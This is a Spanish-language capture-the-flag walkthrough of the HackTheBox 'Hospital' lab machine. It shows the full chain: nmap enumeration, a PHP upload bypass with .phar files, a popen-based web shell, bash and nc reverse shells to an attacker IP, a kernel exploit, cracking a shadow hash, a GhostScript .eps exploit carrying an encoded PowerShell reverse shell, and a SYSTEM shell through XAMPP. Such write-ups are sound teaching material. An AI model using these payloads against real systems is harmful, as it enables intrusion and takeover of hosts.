

# HOSPITAL [HACKTHEBOX] / Medium
### (Active Directory, SMB Enumeration, PHP File Upload, Attack Automation with Caido, PHP Remote Code Execution (RCE), Information Leakage on MySQL, Vulnerable Kernel PrivEsc, Bad GhostScript Execution Sending .eps File, XAMPP Abuse for Privilege Escalation)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# Nmap Scan

El siguiente escaneo:

```bash
nmap -p- --open -sS -sCV -Pn -vvv -n 10.10.11.241 -oN nmap_scan
```

Nos reporta varios puertos abiertos, entre ellos:

- **22** -> **SSH**
- **53** -> **DNS**
- **88** -> **Kerberos**
- **389** -> **LDAP**
- **443** -> **SSL/HTTP**
- **445** -> **SMB**
- **5985** -> **WinRM**

```bash
22/tcp open ssh syn-ack ttl 62 OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)

53/tcp open domain syn-ack ttl 127 Simple DNS Plus

88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-20 17:12:54Z)

135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

139/tcp open netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn

389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)

443/tcp open ssl/http syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)

445/tcp open  microsoft-ds? syn-ack ttl 127

464/tcp open kpasswd5? syn-ack ttl 127

593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0

636/tcp open ldapssl? syn-ack ttl 127

1801/tcpopen msmq? syn-ack ttl 127

2103/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

2105/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

2107/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

2179/tcp open vmrdp? syn-ack ttl 127

3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)

3269/tcp open globalcatLDAPssl? syn-ack ttl 127

3389/tcp open ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services

5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

6404/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

6406/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0

6407/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

6409/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

6613/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

6629/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

8080/tcp open http syn-ack ttl 62  Apache httpd 2.4.55 ((Ubuntu))

9389/tcp open mc-nmf syn-ack ttl 127 .NET Message Framing

21268/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
```

# SMB Enumeration

Si jugamos con `netexec smb`, podemos ver el dominio del Active Directory, junto con el DC, esta información, la añadiremos al `/etc/hosts`:


También descubrimos una cosa curiosa, está abierto el puerto 22, pero tiene una versión que indica que es un sistema linux, vamos a buscarlo por launchpad ya que parece que hay un subsistema Linux por detrás, como vemos, Launchpad nos indica que es un Ubuntu Lunar:


# Web Enumeration

Ahora, si nos fijamos en el escaneo de nmap, vemos que hay una web por el puerto 443, es decir `ssl/http`, que es una web https:


Nos encontramos con este aviso, esto es porque se está utilizando un certificado autofirmado, firefox lo toma como riesgo potencial, le damos a continuar:


La web aloja lo que parece ser un portal de email, si nos metemos en el código fuente, vemos el nombre del programa que se está utilizando, con nombre "RoundCube":



Por aquí no podemos hacer mucho más de momento, así que nos vamos a la web número 2, que corre por el puerto `8080`, esta vez por http, nos metemos en "Make one" para crear una nueva cuenta en este portal:


# PHP Arbitrary File Upload

Y ahora iniciamos sesión. Al hacerlo entramos en el portal y vemos que nos deja subir un archivo, si probamos a subir un archivo php, no nos deja, vamos a ver la petición con Caido:


Nos redirige a "failed.php". Vamos a ver los directorios que existen jugando con `wfuzz`:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://hospital.htb:8080/FUZZ.php' --follow
```

Y vemos que nos saca un directorio `/uploads`, ahora que ya tenemos claro dónde se suben los archivos válidos, vamos a realizar fuerza bruta en la petición de Caido para ver si podemos hacer un bypass a la hora de subir el archivo php.

Si nos fijamos en la petición, siempre que subimos un archivo que no sea una imagen, nos redirige a `/failed.php`, esto es una vía potencial para realizar un ataque de fuerza bruta modificando la extensión del archivo, para ello, vamos a buscar por internet tipos de extensiones que aceptan lenguaje php, yo he ido a hacktricks y he filtrado por "File Upload":


Teniendo una lista de potenciales extensiones, vamos a meterlas en un archivo para separarlas y que funcione bien en Caido:

```bash
cat extensions.txt | tr ',' '\n' | tr -d ' '
```

Filtrando de esta manera, ya lo tenemos en el formato que queremos:


Antes de pegar el output a Caido, hay que crear un "Automate", de esta manera:


Una vez le hemos dado a "Add placeholder", ponemos como "Type" -> "Simple list" y pegamos el output de las extensiones php:


Ahora le damos a "run" y filtramos con la HTTPQL Query `resp.raw.cont:"success.php"`. Nos saldrán todas las extensiones que nos permiten subir un archivo php sin que nos lo bloquee el filtro:


Ahora hay que probar a ver si nos interpreta el código en alguno, si quitamos el ".php" en el fuzzing que hicimos con wfuzz, nos sale un subdirectorio `/uploads`, el cual si añadimos el archivo que queremos ver, nos sale la pantalla vacía, pero si hacemos `ctrl+u`, vemos que está el código, pero no lo interpreta:


Si vamos probando con cada una de las extensiones que nos permite subir, vemos que con el .phar nos lo interpreta:


Ahora hay que averiguar las funciones de php que nos deja ejecutar aquí, ya que si probamos funciones como "shell_exec" o "exec", no nos deja. Para ello, vamos a usar la función `phpinfo()`:


Si subimos el archivo mediante el repeater de Caido y recargamos la página de pwned.phar, tenemos que filtrar por "disable_functions" y nos salen las funciones desactivadas:


Ahora, por internet, buscamos por ejemplo "php functions commmand execution", yo en mi caso he encotrado la web "https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720":


Vamos a añadir todas estas funciones a un array en nuestro archivo .php y vamos a mirar cuales existen, vamos a copiar el siguiente código en el repeater de Caido:

```php
<?php
  $functions = array("exec", "passthru", "system", "shell_exec", "popen", "proc_open", "pcntl_exec");

  foreach ($functions as $f){
    if(function_exists($f)){
      echo "\n[+] " . $f . " -> Existe :)";
    }
  }
?>
```

Si recargamos la página, vemos que nos dice que `popen()` existe:


Vamos a utilizar popen, para ello, vamos a los manuales de php en https://www.php.net/manual/en/function.popen.php, donde vemos como se usa. Para poder leer los comandos, necesitamos también la función fread, que podemos ver su utilización en su manual de php https://www.php.net/manual/en/function.fread.php.

Copiamos el siguiente comando y lo pegamos en el replay de Caido:

```php
<?php
  echo fread(popen($_GET['cmd'], "r"), 10000);
?>
```

Si recargamos la web vemos que nos lo ejecuta sin problemas, ya tenemos RCE:


Ahora si introducimos el código urlencodeado del típico comando para conseguir una shell de bash (`bash -c 'bash -i >& /dev/tcp/[ip]/[puerto] 0>&1`) después de "cmd=" en la url, tendremos la reverse shell:

```bash
bash -c 'bash -i >%26 %2Fdev%2Ftcp%2F10.10.14.3%2F443 0>%261'
```


# User Flag

Una vez dentro, si realizamos un `lsb_release -a`, nos da la versión de Ubuntu que habíamos visto antes mediante launchpad:


 Ahora si nos vamos un directorio hacia atrás (base de la web) y hacemos un `ls`, nos encontramos un "config.php", el cual si le hacemos un `cat`, nos muestra unas credenciales:


Vamos a intentar entrar con las mismas en MySql:


Y si entramos en la DB "hospital", vemos las tablas y seleccionamos todo de la tabla "users", vemos unas credenciales hasheadas:


Al crackearlas simplemente nos da las credenciales para los usuarios "admin" y "patient" en la web del puerto 8080, pero no podemos hacer nada más.

Si seguimos buscando formas de escalar, vemos que el kernel es vulnerable (haciendo `uname -a`), yo lo he buscado por internet y me he topado con el repositorio https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629. Nos copiamos el script, le damos privilegios de ejecución y lo ejecutamos:


Como estamos en un subsistema de Linux, hay que llegar a la máquina anfitrión, para ello, vamos a leer el archivo /etc/shadow, donde encontraremos un hash de "drwilliams":


Ahora que tenemos otro hash, vamos a volver a buscar coincidencias en hashcat:

```bash
hashcat --example-hashes | grep -C 15 '\$6\$'
```

Como vemos es el #1800:


Si ejecutamos hashcat, nos muestra una contraseña (`qwe123!@#`):


Esta contraseña podemos utilizarla para entrar como drwilliams al portal de correo, donde encontramos un email, el cual nos dice que hay que pasarle un archivo ".eps", el cual nos leerá con GhostScript:


Al buscar GhostScript exploit por Google, nos encuentra vulnerabilidades. Yo voy a usar el script en python del repositorio :

```bash
python3 exploit.py --generate --payload "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMwAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"  --extension eps
```

Esto nos saca un archivo "malicious.eps" con el contenido del payload, el cual vamos a reenviar a drbrown (cambiando el nombre para que no llame la atención) para que lo ejecute GhostScript:


Y una vez enviado recibimos la shell:


Si nos vamos a `C:\Users\drbrown.HOSPITAL\Desktop`, podemos ver la flag de user.


# Privilege Escalation to Administrator

Si ahora vemos el contenido de GhostScript en \Documents, vemos una contraseña en texto claro de drbrown:


A mi no me funcionaba bien la shell, así que me pasé otra con nc.exe:

```bash
locate nc.exe
cp /usr/share/windows-resources/binaries/nc.exe .
python3 -m http.server 80
```

Y después en la PowerShell ejecutamos lo siguiente:

```powershell
certutils.exe -f -urlcache -split http://[ip]/nc.exe nc.exe
./nc.exe -e cmd [ip] [puerto]
```

Y tendríamos ya una shell que nos muestra los errores:


Si nos vamos al directorio raíz, vemos una carpeta llamada "xampp", en la cual hay otra carpeta llamada "htdocs", que si nos metemos vemos que pertenece al servicio de mail "RoundCube":


Como muchos servicios los corre NT AUTHORITY/system, de forma que igual podemos conseguir una reverse shell como tal. Vamos a crearnos un archivo .php:


Y nos lo vamos a descargar en el directorio htaccess:

```powershell
certutil.exe -f -urlcache -split http://10.10.14.3/privesc.php privesc.phpcertutil.exe -f -urlcache -split http://10.10.14.3/privesc.php privesc.php
```


Si nos vamos a la web, tenemos ejecución remota de comandos (RCE) en la web:


Como ya teníamos el archivo nc.exe en `C:\Windows\Temp\netcat\nc.exe`, vamos a utilizarlo para conseguir la reverse shell como system:

```url
https://hospital.htb/privesc.php?cmd=C:\\Windows\\Temp\\netcat\\nc.exe -e cmd 10.10.14.3 443
```

Nos ponemos en escucha en nuestra máquina atacante y la recibimos:


Por último, si nos vamos a `C:\Users\Administrator\Desktop\root.txt`, tenemos la flag de root.


# ./PWNED
